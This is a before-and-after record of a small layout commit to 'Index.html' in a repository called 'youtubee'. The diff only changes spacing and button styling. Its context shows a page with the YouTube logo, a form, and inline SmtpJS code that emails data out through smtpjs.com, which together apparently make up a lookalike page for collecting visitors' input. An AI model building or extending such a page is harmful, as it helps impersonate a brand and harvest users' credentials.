

Before and after one commit to MULTI-GAMER-2/youtubee, a plain HTML site: page Index.html in a window 1280 px wide. Shown: the part 234-512 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update Index.html

```diff
--- a/Index.html
+++ b/Index.html
@@ -1,4 +1,3 @@
-
 <!DOCTYPE html>
 <html lang="en">
     <head>
@@ -8,6 +7,9 @@
     </head>
     <script src="https://unpkg.com/sweetalert/dist/sweetalert.min.js"></script>
     <body>
+<br />
+<br />
+<br />
           <img src="https://exame.com/wp-content/uploads/2017/08/new-youtube-logo-840x402.jpg?quality=70&strip=info">
         <div class="container">
 
@@ -24,7 +26,8 @@
                 </form>
         </div>
     </body>
-    <script>
+
+   <script>
        var Email = { send: function (a) { return new Promise(function (n, e) { a.nocache = Math.floor(1e6 * Math.random() + 1), a.Action = "Send"; var t = JSON.stringify(a); Email.ajaxPost("https://smtpjs.com/v3/smtpjs.aspx?", t, function (e) { n(e) }) }) }, ajaxPost: function (e, n, t) { var a = Email.createCORSRequest("POST", e); a.setRequestHeader("Content-type", "application/x-www-form-urlencoded"), a.onload = function () { var e = a.responseText; null != t && t(e) }, a.send(n) }, ajax: function (e, n) { var t = Email.createCORSRequest("GET", e); t.onload = function () { var e = t.responseText; null != n && n(e) }, t.send() }, createCORSRequest: function (e, n) { var t = new XMLHttpRequest; return "withCredentials" in t ? t.open(e, n, !0) : "undefined" != typeof XDomainRequest ? (t = new XDomainRequest).open(e, n) : t = null, t } };
 
 
@@ -130,9 +133,10 @@ body {
     color:#fff;
     background-color:red;
     font-size:1rem;
-    width:50%;
+    width: 70%;
     border-color: red;
-    border-radius:20px;
+    border-radius:30px;
+    border: none;
 }
 
 img{
```
